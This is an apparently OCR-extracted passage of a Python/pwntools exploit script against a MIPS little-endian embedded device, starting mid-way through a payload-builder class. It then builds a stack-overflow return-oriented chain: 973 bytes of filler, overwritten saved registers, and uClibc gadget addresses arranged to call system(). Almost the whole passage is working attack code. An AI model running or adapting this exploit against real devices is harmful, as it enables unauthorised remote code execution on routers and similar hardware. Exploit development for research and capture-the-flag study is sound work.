 ```python
        if base is None:  
            base = self.elfbase  
        return self.ToBytes(base + offset)  
  
    def AddAddress(self, offset, base=None):  
        self.Add(self.Address(offset, base))  
  
    def ToBytes(self, value, size=BYTES):  
        data = [(value >> (8 * i)) & 0xff for i in range(size)]  
        if self.endian != self.LITTLE:  
            data = data[::-1]  
        return bytes(data)  
  
    def AddNOPs(self, size):  
        self.Add(self.rand_text(size))  
  
    def AddBuffer(self, size, byte=FILLER):  
        self.Add(byte * size)  
  
    def Build(self):  
        count = 0  
        for c in self.payload:  
            if self.badbytes.find(c) != -1:  
                raise ValueError("Bad byte found in payload at offset %d: 0x%.2X" % (count, c))  
        count += 1  
        return self.payload  
  
    def Print(self, bpl = BYTES):  
        i = 0  
        for c in self.payload:  
            if i == 4:  
                print()  
                i = 0  
            sys.stdout.write("\\x%.2X" % c)  
            sys.stdout.flush()  
            if bpl > 0:  
                i += 1  
        print("\n")  
context.arch = "mips"  
context.endian = "little"  
context.log_level = "debug"  
  
payload = MIPSPayload(0x7f738000)  
  
libc = ELF("./lib/libuClibc-0.9.30.1.so")  
libc.address = 0x77fe2000  
system_addr = libc.symbols['system']  
log.success("system address: 0x%x" % system_addr)  
calcsystem = 0x158c8    # $s0 add 1, jalr $s5  
callsystem = 0x159cc    # cmd -> $a0, jalr $s0 (system_addr)  
  
payload.AddBuffer(0x3CD)                    #       973  
payload.AddAddress(system_addr - 1)         # $s0   977  
payload.AddBuffer(4)                        # $s1   981  
payload.AddBuffer(4)                        # $s2   985  
payload.AddBuffer(4)                        # $s3   989  
payload.AddBuffer(4)                        # $s4   993                       
payload.AddAddress(callsystem)              # $s5   997  
payload.AddBuffer(4)                        # $s6   1001  
payload.AddBuffer(4)                        # $s7   1005  
payload.AddBuffer(4)                        # $fp   1009  
payload.AddAddress(calcsystem)              # $ra  
payload.AddBuffer(0x10)                     # .text:000159CC  addiu   $s5, $sp, 0x170+var_160  
```